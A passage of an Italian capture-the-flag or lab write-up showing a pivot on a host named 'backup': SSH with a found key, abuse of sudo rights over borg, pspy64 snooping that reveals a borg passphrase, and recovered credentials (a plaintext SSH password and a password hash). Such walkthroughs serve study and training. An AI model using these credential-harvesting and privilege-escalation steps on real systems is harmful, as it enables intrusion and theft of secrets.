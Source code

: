 Accedo tramite ssh con le credenziali trovate nella macchina 15:

```bash
ssh -i sarah_id_rsa sarah@172.16.156.19
```

Trovo così la flag local.txt

Lancio il comando:

```bash
sudo -l
```

E ottengo questo risultato:

```bash
Matching Defaults entries for sarah on backup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sarah may run the following commands on backup:
    (ALL) NOPASSWD: /usr/bin/borg list *
    (ALL) NOPASSWD: /usr/bin/borg extract *
    (ALL) NOPASSWD: /usr/bin/borg mount *
```

Dopo diverse ricerche scopro come poter utilizzare il comando per poter estrapolare delle informazioni dalla cartella /root.

In particolare è stato utile lanciare il comando:

```bash
./pspy64 -pf -i 1000
```

Che mi ha tirato fuori un'informazione importante, ovvero la passphrase di borg

```bash
/bin/sh -c BORG_PASSPHRASE='xinyVzoH2AnJpRK9sfMgBA' borg create /opt/borgbackup::usb_1716808218 /media/usb0 
```

Utilizzo questo comando:

```bash
sudo borg list /opt/borgbackup::home root/
```

E tiro fuori due informazioni utili:
- l'hash della password dell'utente amy (utente della macchina attuale)
- la password dell'utente andrew per accedere tramite ssh alla machhina 20

```bash
sshpass -p "Rb9kNokjDsjYyH" rsync andrew@172.16.6.20:/etc/ /opt/backup/etc/
{
    "user": "amy",
    "pass": "0814b6b7f0de51ecf54ca5b6e6e612bf"
}
```
